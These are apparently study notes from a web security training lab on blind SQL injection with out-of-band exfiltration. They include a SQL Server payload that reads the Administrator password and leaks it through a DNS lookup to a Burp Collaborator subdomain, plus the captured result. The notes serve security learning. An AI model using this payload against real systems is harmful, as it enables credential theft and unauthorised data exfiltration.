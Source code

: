# Lab: Blind SQL injection with out-of-band data exfiltration
- Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application.
```
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```
- This input reads the password for the Administrator user
- appends a unique Collaborator subdomain, and triggers a DNS lookup
- This will result in a DNS lookup like the following, allowing you to view the captured password
```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```
- Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel
- OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.
# Lab Analysis
- lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie
- The SQL query is executed asynchronously and has no effect on the application's response.
- The database contains a different table called users, with columns called username and password
